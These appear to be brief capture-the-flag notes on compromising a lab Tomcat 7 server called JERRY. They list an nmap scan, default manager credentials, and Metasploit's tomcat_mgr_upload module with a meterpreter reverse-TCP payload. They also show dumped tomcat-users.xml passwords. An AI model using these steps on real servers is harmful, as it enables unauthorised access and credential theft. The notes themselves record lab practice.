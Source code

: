 10.129.114.119 

# open ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1


# 80 
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

* http://10.129.114.119:8080/manager/html =>  standard pw: tomcat / s3cret

# Server info
Apache Tomcat/7.0.88 	1.8.0_171-b11 	Oracle Corporation 	Windows Server 2012 R2 	6.3 	amd64 	JERRY 	10.129.114.119


* Related to tomcat: https://www.cvedetails.com/cve/CVE-2019-0232/

# Used metasploit

* use multi/http/tomcat_mgr_upload
* use payload windows/meterpreter/reverse_tcp


meterpreter > cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>
<tomcat-users>
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="s3cret" roles="tomcat, manager-gui, manager-script, manager-jmx, manager-status"/>
  <user username="admin" password="admin" roles="role1, manager-status"/>
  <user username="jerry" password="tomcat" roles="role1, manager-status"/>


=> cd to C:/Windows/Users and bam
